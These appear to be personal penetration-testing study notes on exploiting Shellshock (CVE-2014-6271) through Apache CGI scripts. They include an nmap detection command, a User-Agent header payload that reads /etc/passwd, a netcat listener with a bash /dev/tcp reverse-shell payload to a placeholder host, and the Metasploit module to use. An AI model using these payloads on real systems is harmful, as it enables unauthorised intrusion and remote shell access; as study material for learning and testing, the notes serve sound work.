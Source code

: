 CVE-2014-6271, related to [[Linux Exploitation]] and [[Metasploit]]

Allows RCE via Apache and Bash

It isn't particullary common anymore but knowing it's relevant

You need to locate an input vector or script that allows you to communicate with bash

I case of apache we can use any legitimate CGI scripts accessible on the web server

Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash

To check if the system is vulnerable we may use nmap:

``` bash
nmap -SV [IP] --script=http-shellshock --script-args "http-shellshock.uri=[cgiScriptLocation]"
```

Then we can exploit it using [[Burp Suite]]

We intercept the request to the cgi script and we will inject in the User Agent header

We start with:

``` bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

If it worked we will get the contents of /etc/passwd, to gain a tcp reverse_shell we can set up a netcat listener:

``` bash
netcat -nvlp [LPORT]
```

And in the User-Agent use:

``` bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/[LHOST]/[LPORT] 0>&1'
```

We can also exploit it using metasploit, we can use the auxiliary module for PoC and the exploit:
multi/http/apache_mod_cgi_bash_env_exec

In terms of options we need to set RHOSTS and RPORT